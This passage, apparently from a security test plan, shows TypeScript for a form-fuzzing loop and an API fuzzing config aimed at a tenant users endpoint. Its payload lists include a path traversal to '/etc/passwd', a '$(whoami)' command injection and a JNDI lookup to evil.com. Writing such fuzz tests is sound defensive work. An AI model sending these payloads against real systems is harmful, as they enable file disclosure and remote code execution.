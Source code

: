 ```typescript
          // Fill form with payload
          await input.fill(payload);
          
          // Submit form
          await page.click(`${formSelector} button[type="submit"]`);
          
          // Analyze response
          const result = await this.analyzeResponse(page, payload, inputName);
          results.push(result);
          
        } catch (error) {
          results.push({
            payload,
            inputName,
            error: error.message,
            status: 'ERROR'
          });
        }
      }
    }
    
    return results;
  }
}
```

### **3.2 API Parameter Fuzzing**

#### **API Fuzzing Scenarios:**
```typescript
interface APIFuzzingConfig {
  endpoints: {
    '/api/tenants/{tenantId}/users': {
      methods: ['GET', 'POST', 'PUT', 'DELETE'],
      parameters: {
        tenantId: ['valid_uuid', 'invalid_uuid', 'sql_injection', 'xss'],
        query_params: ['limit', 'offset', 'filter', 'sort'],
        body_params: ['email', 'firstName', 'lastName', 'role']
      }
    };
  };
  
  payloadSets: {
    uuid_fuzzing: [
      'invalid-uuid-format',
      '00000000-0000-0000-0000-000000000000',
      'ffffffff-ffff-ffff-ffff-ffffffffffff',
      '../../../etc/passwd',
      'admin',
      null,
      undefined
    ];
    
    pagination_fuzzing: [
      -1, 0, 1, 999999999,
      'invalid', null, undefined,
      '$(whoami)', '${jndi:ldap://evil.com}'
    ];
  };
}
```

